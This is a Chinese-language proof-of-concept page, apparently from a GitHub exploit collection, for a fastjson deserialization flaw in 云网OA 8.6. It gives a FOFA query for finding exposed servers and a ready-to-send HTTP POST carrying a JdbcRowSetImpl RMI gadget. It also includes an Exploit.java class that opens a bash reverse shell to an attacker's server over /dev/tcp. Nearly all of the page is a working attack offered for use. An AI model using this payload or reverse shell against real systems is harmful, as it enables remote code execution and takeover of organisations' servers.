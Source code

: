 ## 云网OA8.6存在fastjson反序列化漏洞

云网OA8.6使用fastjson1.2.37造成反序列化漏洞

## fofa
```
"云网OA"
```

## poc
```
POST /oa//setup/updateUiSetup HTTP/1.1
Host: 192.168.0.7:8096
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: skincode=lte; name=admin; pwd=; JSESSIONID=85F37A117572BE90EA4BA0ED10F77EF5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

uiSetup={"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1389/Exploit", "autoCommit":true}}

```
![a8ac139413588a49d844ca534afce1ed](https://github.com/wy876/POC/assets/139549762/773d195f-9171-4783-956b-4db556f93aae)

![bb988d242c8d788aca44bd3e22f2650b](https://github.com/wy876/POC/assets/139549762/15be1a39-4102-4864-8cae-71e21e56187b)

### Exploit.java
```
public class Exploit {
    public Exploit(){
        try {
            java.lang.Runtime.getRuntime().exec(
                    new String[]{"bash", "-c", "bash -i >& /dev/tcp/服务器IP/12345 0>&1"});
        }
        catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

## 漏洞来源
- https://mp.weixin.qq.com/s/KNE7khKhG9-FLTJK73ZfNQ
